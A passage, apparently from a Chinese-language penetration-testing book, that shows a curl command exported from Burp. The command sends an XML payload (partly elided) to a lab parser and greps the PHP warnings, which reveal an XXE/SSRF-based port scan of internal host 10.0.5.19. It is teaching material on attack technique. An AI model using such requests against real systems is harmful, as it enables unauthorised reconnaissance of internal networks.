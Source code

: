 ![端口扫描器](img/B09238_10_10.jpg)

图 10.10：将 Burp 请求保存为 curl 命令

生成的 `curl` 命令可以通过管道传递给 `grep`，我们可以过滤出仅包含 `"http:"` 的行，以使输出更易于阅读：

```
curl -i -s -k -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'xml=%3C%3Fxml+version%3D%221.0%22+[...]%3C%2Fbudgetnmap%3E%0D%0A&submit_xml=Parse+XML' $'http://xml.parser.local/xml.php' | **grep "http:"**
<b>Warning</b>:  simplexml_load_string(**http://10.0.5.19:8080/**): failed to open stream: **Connection timed out** in <b>/var/www/html/xml/xml.php</b> on line <b>4</b><br />
[...]
<b>Warning</b>:  simplexml_load_string(): **http://10.0.5.19:80/**:1: parser error : **StartTag: invalid element name** in <b>/var/www/html/xml/xml.php</b> on line <b>4</b><br />
[...]
<b>Warning</b>:  simplexml_load_string(**http://10.0.5.19:443/**): failed to open stream: **Connection timed out** in <b>/var/www/html/xml/xml.php</b> on line <b>4</b><br />
[...]
<b>Warning</b>:  simplexml_load_string(**http://10.0.5.19:22/**): failed to open stream: **Connection timed out** in <b>/var/www/html/xml/xml.php</b> on line <b>4</b><br />
[...]
<b>Warning</b>:  simplexml_load_string(**http://10.0.5.19:21/**): failed to open stream: **Connection timed out** in <b>/var/www/html/xml/xml.php</b> on line <b>4</b><br />
```
